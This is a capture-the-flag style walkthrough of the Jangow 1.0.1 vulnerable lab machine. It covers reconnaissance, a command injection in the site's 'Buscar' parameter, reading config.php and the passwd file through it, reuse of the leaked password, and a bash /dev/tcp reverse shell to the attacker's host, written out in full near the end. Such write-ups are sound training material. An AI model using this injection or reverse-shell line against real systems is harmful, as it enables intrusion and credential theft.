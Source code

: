 # Jangow-1.0.1-Write-up
Jangow: 1.0.1 Walkthrough
I'll add here vulnerable machine solution.
After running machine on VirtualBox, first i run arp-scan -l command to discover the ip address of the target.
![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/0804170b-793e-44c8-a6f2-c89015663c7a)
Yes, our target's IP is 192.168.56.118. Hence I run a nmap scan do view the open ports and running services.
![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/3715a5eb-cb53-4086-a6cf-639c2cbeec2a)
 It seems port 21 and 80 is open. First I tried FTP login with anonymous/anonymous but didn't work. I started to play around web service.
 ![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/9876a466-52b1-4d4d-9101-96fd8ca5d761)
after click on the site:
![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/23a0e5be-5733-4ea8-9798-4eb5ccc6b311)
Then I used nikto to scan the static web site. But I couldn't find anything important.
![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/d528c360-9e70-48f6-bb73-44f21ca02975)

Additionally, I run dirbuster and found /wordpress folder but seems that its just a copy of the original web site.
![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/a1e926a9-3f39-402e-9169-67c72c4cda01)
I wondered config.php and from here just got a username.
![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/29717a00-1196-4828-9ce3-efd88806608a)
On the website, there is just one dynamic point that raises my attention. that is Buscar.

![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/6b6d9312-f44c-44da-94b3-71cd3f5b9f80)
 When we click on it nothing happens. I decided to open it with Burp to manipulate the request.
 ![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/675bedd0-a222-4dfa-b9fb-e755cffc455a)
 
Whatever i type here without space, returning 200 success. First I used intruder and gave the numbers to 1000, and nothing found.
Then i gave a wordlist and analysed the result. Bingo, it's kinda command injection vulnerability.
![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/71403d71-5a39-4d22-8c57-d2ab7f734863)

![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/04f856c5-4456-429b-a5e5-5b40c537f56d)

Request is directly running the command after the equal sign. Let's try our own.
![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/767e7259-0f37-4237-be41-7224642bf1ff)
Now, we have a good opportunity to work around the system. I remember config.php file and I tried to read it over here.
![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/7c44c389-3044-4211-9d60-cba408cca56c)
config.php is under wordpress folder, we shouldn't use spaces while typing so we're unable to use cat wordpress/config.php.
to overcome this situation we can use url encoding. 
![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/5f1d98b2-3baf-4e7f-ab3b-fcc524725a84)
and put it to the request.
![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/7fb84dac-3b57-453c-bdad-a9df38e29e7d)

Bingo!. We've a username and password for the DB connection. I'll try them for the FTP service. but it didn't work.
let's view the passwd file for the available users.

![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/db0d6010-b6c8-4b39-b511-194fd65af953)



![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/8a0ab688-3000-41e9-a92e-e47512170e5a)
there is a jangow01 user on the system. Let's try the previous password for this user.
![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/6ca03521-de7b-4a55-a69d-7c1bdce250ae)
Finally it worked!
And here is the flag for the user.
![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/ff0f84cd-8834-4e6e-b157-89a60d578282)

 to gain root level access, I wanted to get a shell access so i used pentestmonkey's php reverse shell located in /usr/share
 /webshells/php/php-reverse.php and modified the file.
 ![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/24047265-8f56-471e-bada-0fdd0c130221)
via FTP uploaded to the target and started a netcat listener. But it didn't work, also i tried netcat to get a reverse shell didn't work as well in my case. finally i used bash's builtin function of /dev/tcp on port 443 and it worked.
/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.102/443 0>&1 '
![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/d06232a2-c072-4a82-8da3-ba7db469704e)
![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/293d1e97-4114-4888-97a1-8f05415f1610)
And here is the user's flag.
![image](https://github.com/harunsvnc/Jangow-1.0.1-Write-up/assets/75423540/e777a706-dcf3-427b-a292-86a0fc79ea1a)



